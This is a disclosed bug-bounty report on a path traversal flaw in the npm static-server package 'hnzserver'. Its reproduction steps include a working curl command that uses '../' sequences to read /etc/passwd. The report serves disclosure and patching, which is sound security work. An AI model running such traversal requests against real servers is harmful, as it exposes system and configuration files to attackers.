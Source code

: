 # [hnzserver] Path Traversal allowing to read any files on the server

## Report Details
- **Report ID**: 579517
- **URL**: https://hackerone.com/reports/579517
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-05-13T20:17:40.604Z
- **Disclosed**: 2020-09-24T19:08:36.724Z

## Reporter
- **Username**: lightangel1412
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report path traversal vulnerability in module "hnzserver"
It allows an attacker to read any files even system files via this path traversal vulnerability.

# Module

module name: hnzserver
version: 2.0.6
npm page: https://www.npmjs.com/package/hnzserver

## Module Description

静态服务器 means "Static server"

## Module Stats

[8] downloads in the last week
[40] downloads in the last month
[40] downloads in week 01-07 Apr

# Vulnerability

##Vulnerability Description
Path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files.

##Steps To Reproduce:
- Install the module
```
npm install -g hnzserver
```

- Run 'hnzserver in "~/Desktop" directory :
```
root@kali:~/Desktop# hnzserver
server running is :http://localhost:8888
```
- Use cURL to access etc/passwd file:
```
$ curl --path-as-is --url 'http://127.0.0.1:8888/../../../../etc/passwd'
```
{F489679}

##Patch
User input should be properly sanitized and filtered to remove dot-dot-slash (../)” sequences and its variations in path. 

##Supporting Material/References:
- Linux kali 4.15.0-kali2-amd64
- node 10.15.3
- npm 6.9
- Firefox ESR 52.7.3 (64-bit)

##Wrap up
- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

It could have enabled an attacker to view system files and leverage attacks like remote code execution and so on.

## Attachments
- hnzserver_-_PathTraversal.PNG
